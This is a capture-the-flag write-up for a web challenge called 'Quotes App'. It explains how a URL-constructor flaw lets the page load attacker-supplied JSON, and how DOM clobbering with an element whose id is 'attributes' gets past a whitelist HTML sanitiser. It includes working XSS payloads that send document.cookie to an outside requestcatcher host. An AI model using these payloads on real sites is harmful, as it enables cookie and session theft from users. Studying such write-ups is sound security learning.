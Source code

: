 +++
title = "Quotes App"
date = "2025-07-04"
authors = ["Arun Radhakrishnan"]
+++

### Description

We're given the code to a neat little website that chooses a random nice quote to display to you whenever you click the button.
{{ img(id="normal_working.png", alt="Normal working of the app. Random quote is displayed corresponding to the quoteid param in the url.", class="textCenter") }}

### The Solution

Looking around the source code, we find a script called bot.py, which has a function visit_url. The function visits a given url and conveniently places our flag as a cookie before visiting.
In app.py, we see that there's an endpoint called /report. This site allows us to submit any url for our bot to visit. So... all we have to do is, get some site which can run some js code, pick up the cookie and send it to a webhook somewhere.

This is where the first trick comes up. Check this part of the code, where the api is called with the given quoteid param.

```js
function buildApiUrl(baseUrl, quoteId) {
    return new URL(quoteId, `${window.location.origin}${baseUrl}`).toString();
}

async function fetchQuote(id) {
    try {
        const url = buildApiUrl("/api/quotes/", id);
        const response = await fetch(url, { method: "GET" });

        if (!response.ok) {
            throw new Error("Quote not found.");
        }

        const data = await response.json();
        return data.quote;
    } catch (error) {
        throw error;
    }
}
```

Specifically, this line:

```js
return new URL(quoteId, `${window.location.origin}${baseUrl}`).toString();
```

The URL function creates a url from the second param (base location) treating the first param as a relative path from the base location. But if the first parameter itself is a full URL, then it is just returned as is.
So... we can just enter any website in /?quoteid=\<enter any website here\>, and the fetchQuote function will return just the quote value from the response and then give it back out to us.

This should make our solution pretty easy now. Just use some vps that can send custom responses, and feed that website as quoteid. In the response JSON that you send, place an item with key as quote and value as a script tag. Inside the script tag, write some js code to send document.cookie to a webhook of your choice.

```json
{
    "quote": "<script type=\"javascript\">window.location = \"https:\\alpha.requestcatcher.com\test?flag=\" + document.cookie;<\script>"
}
```

Something like this should work well enough.

Except... before the quote value is displayed, it gets sanitised thoroughly - specifically checking against malicious HTML.
sanitiser.js contains the following code:

```js
const DefaultWhitelist = {
    '*': ['class', 'dir', 'id', 'lang', 'role', ARIA_ATTRIBUTE_PATTERN],
    a: ['target', 'href', 'title', 'rel'],
    area: [],
    b: [],
    br: [],
    // more such values are there, check the full code for the whole list
}

function sanitizeHtml(unsafeHtml, whiteList) {
    if (unsafeHtml.length === 0) {
      return unsafeHtml
    }
    
    if (whiteList === undefined) {
      whiteList = DefaultWhitelist
    }

    const domParser = new window.DOMParser()
    const createdDocument = domParser.parseFromString(unsafeHtml, 'text/html')
    const whitelistKeys = Object.keys(whiteList)
    const elements = [].slice.call(createdDocument.body.querySelectorAll('*'))
  
    for (let i = 0, len = elements.length; i < len; i++) {
      const el = elements[i]
      const elName = el.nodeName.toLowerCase()  
      if (whitelistKeys.indexOf(el.nodeName.toLowerCase()) === -1) {
        el.parentNode.removeChild(el)
        continue
      }
  
      const attributeList = [].slice.call(el.attributes)
      const whitelistedAttributes = [].concat(whiteList['*'] || [], whiteList[elName] || [])
  
      attributeList.forEach((attr) => {
        if (!allowedAttribute(attr, whitelistedAttributes)) {
          el.removeAttribute(attr.nodeName)
        }
      })
    }
     
    return createdDocument.body.innerHTML
}
```

Essentially, the above code treats the quote value as HTML code, and checks each element individually. If the tag is not in the whitelist (and yes, \<script\> is not included in the whitelist), then the element is removed. Furthermore, all attributes of the element that are not in the whitelist are also removed (notably all onload, onfocus etc. attributes are removed).

Lucky for us though, there is a second very subtle trick to get around this constraint.

Look at the line:

```js
const attributeList = [].slice.call(el.attributes)
```

Logically, this line creates a list of all attributes of the element el.

However, this dot syntax under DOM has several meanings. Notably, if el had a child element of id x, then el.x would refer to that child.
So... hypothetically, if someone made a child element of id = attributes, then el.attributes would start to refer to the child. And in this hypothetical scenario, el.attributes would no longer contain the list of all attributes to be removed by the whitelist.

There's the trick. Instead of using a script tag, we can use a different (whitelisted) tag, say a form tag. We'll have to include a child element (say an input tag) with id = attributes, to avoid the sanitisation. And then we can use any attribute in the form tag, such as the onfocus and autofocus attributes.

```json
{"quote": "<form id=x onfocus=\'window.location=\\\"https://alpha.requestcatcher.com/test?flag=\\\"+document.cookie\' autofocus><input id=attributes>"}
```

This should work just about perfect.

### Trying it out

I used pythonanywhere to send in my custom responses. I put in a custom cookie on a tab and opened the main webpage with my custome quoteid. Here's what happened.
{{ img(id="just_before_entering_url.png", alt="Screenshot of webpage before entering the malicious url. Also shows my custom cookie in the inspect tab", class="textCenter") }}
{{ img(id="request_caught.png", alt="Shows the request being captured with the cookie shown as a parameter", class="textCenter") }}

Now, we just have to take this whole URL (https://\<enter taskurl here\>/?quoteid=\<enter custom response site here\>) and give it to our helpful bot under the /report page. And that's it, flag acquired.

### Bibliography

Thanks to Solo_Way / Little computer demons and their writeup (<https://ctftime.org/writeup/40313>) for a great explanation of the solution. All the new tricks mentioned here were taken from their writeup.
